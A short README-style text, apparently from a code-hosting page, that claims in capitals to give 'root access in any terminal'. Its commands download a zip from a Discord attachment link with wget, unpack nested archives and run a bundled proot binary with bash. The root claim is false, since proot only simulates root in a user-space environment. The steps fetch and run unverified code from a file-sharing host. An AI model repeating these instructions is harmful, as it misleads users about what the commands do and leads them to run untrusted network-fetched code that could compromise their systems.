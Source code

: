 SO THIS COMMANDS CAN GIVE YOU ROOT ACCESS IN ANY TERMINAL JUST FOLLOW THE COMMANDS

wget https://cdn.discordapp.com/attachments/853535040250970113/878590395611775016/yt.zip

unzip yt.zip

unzip root.zip

tar -xvf root.tar.xz

./dist/proot -S . /bin/bash
